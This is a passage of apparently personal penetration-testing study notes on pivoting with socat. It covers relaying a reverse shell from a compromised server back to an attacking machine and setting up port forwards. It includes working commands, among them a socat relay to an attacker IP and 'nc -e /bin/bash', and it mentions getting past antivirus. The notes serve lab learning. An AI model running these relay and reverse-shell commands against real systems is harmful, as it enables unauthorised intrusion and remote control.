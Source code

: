 **Note**: Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe.

# Socat
Socat is not just great for *fully stable Linux shells*[1], it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems people have *learning the syntax*), is that it is very *rarely installed by default* on a target. That said, static binaries are easy to find for both Linux and Windows. Bear in mind that the Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required. Socat can be used to create encrypted connections.

It's best to think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

*Generally speaking*, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward.

**Reverse Shell Relay**

In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). First let's start a standard netcat listener on our attacking box *(sudo nc -lvnp 443)*. Next, on the compromised server, use the following command to start the relay:
```bash
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```
In senario when remote network block machine in network connect outside the world
From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat *on the remote server* to simulate receiving a reverse shell from *the target server*:
```bash
# attacking machine
sudo nc -nlvp 443
# compromised server
./socat tcp-l:8000 tcp:10.50.73.2:443 & # &: backgrounds the listener, turning it into a job.
chmod +x  ./nc
./nc 127.0.0.1 8000 -e /bin/bash
# attacking machine reveive connection...!
```
This technique can also be chained quite easily.

**Port Forwarding -- Easy**
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.
```bash
# compromised server 
./socat tcp-l:LISTENING_PORT,fork,reuseaddr tcp:TARGET_IP:TARGET_PORT &
```
The fork option is used to put every connection into a new process, and the reuseaddr option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection.
